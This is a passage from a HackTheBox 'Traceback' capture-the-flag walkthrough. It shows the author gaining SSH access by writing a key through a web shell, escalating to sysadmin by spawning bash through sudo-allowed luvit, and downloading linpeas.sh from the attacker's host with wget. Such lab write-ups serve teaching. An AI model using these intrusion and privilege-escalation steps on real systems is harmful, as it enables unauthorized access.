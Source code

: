```<!--Some of the best web shells that you might need ;)-->```
  <img src="/images/walkthroughs/hackthebox/traceback/4_webshell.png"/>
</p>

## Exploitation

Now we can go over the files and we can check the note.txt at the user **webadmin** directory: 

```
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

Looking around the directory, we can see the .ssh and an authorized_keys file which is writteable. Let's open an ssh session by authorizing my key on the **webadmin** account.

```kali@traceback:~$ ssh-keygen```

Upload authorized_keys to the server with the webshell and then connect with ssh and the generated id_rsa:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/traceback/6_user.png"/>
</p>

Once inside we can use _sudo -l_ to check what can I run as sudo. 

<p align="center">
  <img src="/images/walkthroughs/hackthebox/traceback/7_sudo_l_1.png"/>
</p>

I can run as **sysadmin** with no password on _/home/sysadmin/luvit_ and also we can see the content of the _privesc.lua_ (privilege scalation) as a hint.  With [luvit](https://luvit.io/) we could spawn a shell with Lua command and get it as **sysadmin**.

```
webadmin@traceback:~$ sudo -l
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit
webadmin@traceback:~$ > os.execute("/bin/bash -i")
```

<p align="center">
  <img src="/images/walkthroughs/hackthebox/traceback/8_sysadmin_0.png" width="500"/>
</p>

For root flag we are going to try linenum.sh and linpeas.sh, we can send the script by serving a quick simple http serveron the folder we have the linpeas.sh file:

```kali@traceback:~$ python3 -m http.server 80```

Then a wget to retrieve the file:

```sysadmin@traceback:/home/sysadmin$ wget 10.10.14.186/linpeas.sh```

Once we have it, with linpeas we can check a 99% PE on /etc/update-motd.d/

<p align="center">
  <img src="/images/walkthroughs/hackthebox/traceback/9_linpeas.png" width="600"/>
</p>

<p align="center">
  <img src="/images/walkthroughs/hackthebox/traceback/9_linpeas_sysadmin.png" width="600"/>
</p>
```